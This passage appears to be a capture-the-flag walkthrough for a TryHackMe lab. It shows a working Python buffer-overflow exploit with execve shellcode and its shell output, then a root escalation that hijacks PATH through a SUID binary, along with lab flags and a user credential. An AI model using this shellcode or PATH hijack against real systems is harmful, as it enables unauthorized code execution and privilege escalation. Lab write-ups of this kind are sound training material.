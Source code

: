 ```py
from struct import pack
#buf="\xcc"*8
buf="\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05"
payload="\x90"*400
payload += buf
payload += "A" * (208 -len(buf))
payload += "B" *8
payload += pack("<Q", 0x7fffffffe300)

print payload
```

```
des@THM_exploit:~$ python exploit.py >testdes@THM_exploit:~$ (cat test;cat) | ./bof Enter some string:
id
uid=1000(kel) gid=1001(des) groups=1001(des)
pwd
/home/des
cd /home/kel
ls -la
total 52
drwx------ 4 kel  kel  4096 Jan 17  2020 .
drwxr-xr-x 6 root root 4096 Jan 17  2020 ..
-rw------- 1 root root   16 Jan 12  2020 .bash_history
-rw-r--r-- 1 kel  kel   220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 kel  kel  3771 Apr  4  2018 .bashrc
drwx------ 2 kel  kel  4096 Jan 12  2020 .cache
drwx------ 3 kel  kel  4096 Jan 12  2020 .gnupg
-rw-r--r-- 1 kel  kel   807 Apr  4  2018 .profile
-rwsr-xr-x 1 root root 8392 Jan 17  2020 exe
-rw-r--r-- 1 root root   76 Jan 17  2020 exe.c
-rw------- 1 kel  kel   118 Jan 17  2020 flag.txt
cat flag.txt
You flag is THM{V0N318*****buffer_overflow_in_64_bit}

The user credential
username: kel
password: kelvin_74656d7065726174757265
```

1. What is the contents of /home/kel/flag.txt?

`THM{V0N318*****buffer_overflow_in_64_bit12**123:))}`

## Task 4 PATH Manipulation :: Binary 3

Get the root flag from the root directory. This will require you to understand how the PATH variable works.

```
cd /tmp
ls
systemd-private-0f779aad101b42e0b596cddf443aa30f-systemd-resolved.service-qGxTHc  systemd-private-0f779aad101b42e0b596cddf443aa30f-systemd-timesyncd.service-Aj3keJ
echo "/bin/bash" > ps
chmod +x ps
export PATH=/tmp:$PATH
cd /home/kel
./exe
id
uid=0(root) gid=0(root) groups=0(root),1001(des)
cat /root/root.txt
The flag: THM{V0N318*****SUID_binary_and_PATH_exploit}.
```
